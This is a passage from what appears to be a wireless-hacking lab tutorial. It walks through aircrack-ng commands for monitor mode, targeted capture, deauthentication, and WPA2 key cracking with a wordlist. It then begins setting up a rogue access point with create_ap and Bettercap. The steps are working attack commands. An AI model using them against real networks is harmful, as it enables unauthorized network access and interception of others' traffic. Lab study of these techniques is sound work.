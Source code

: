 - Ensure the access point router is configured for WPA2-PSK encryption.

- **Put Interface in Monitor Mode:**
   - Type `airmon-ng start wlan0mon`.

   Note:
   - If processes cause trouble, run `airmon-ng check kill`.

- **Capture Packets:**
   - Use `airodump-ng wlan0mon` to capture access points and clients.

- **Target Access Point:**
   - Use `airodump-ng --bssid 54:37:BB:68:88:F9 -c 11 -w <target> wlan0mon` to capture packets.

- **Send De-authentication Packets:**
   - Open a new terminal and type `aireplay-ng -0 11 -a 54:37:BB:68:88:F9 -c wlan0mon` multiple times.

- **Capture WPA Handshake:**
   - Switch back to the terminal running `airodump-ng` and capture the WPA handshake.

- **Crack WPA2 Key:**
   - aircrack-ng -a2 54:37:BB:68:88:F9 -w password.txt <target.cap>
   - The cracked key will be displayed under "KEY FOUND!"

**Additional Tools:**

   - Explore other tools for WEP/WPA/WPA2 encryption cracking:
      - [Elcomsoft Wireless Security Auditor](https://www.elcomsoft.com)
      - [Portable Penetrator](https://www.secpoint.com)
      - [WepCrackGui](https://sourceforge.net)
      - [Pyrit](https://github.com)
      - [WepAttack](http://wepattack.sourceforge.net)


#### Create a Rogue Access Point to Capture Data Packets

- Rogue access points pose a serious security threat, providing unauthorized access to networks. In this task, we'll utilize the [create_ap](https://github.com/oblique/create_ap) tool along with [Bettercap](https://www.kali.org/tools/bettercap/) to create a rogue access point, enabling us to capture data packets.

- Install required packages by running the following command in the terminal:

   ```bash
   sudo apt-get install haveged hostapd git util-linux procps iproute2 iw dnsmasq iptables bettercap
   ```

- Navigate to the [create_ap](https://github.com/oblique/create_ap) repository and install it:

   ```bash
   cd create_ap
   make install
   ```

- Identify the wireless interface:

   ```bash
   ip a
   ```

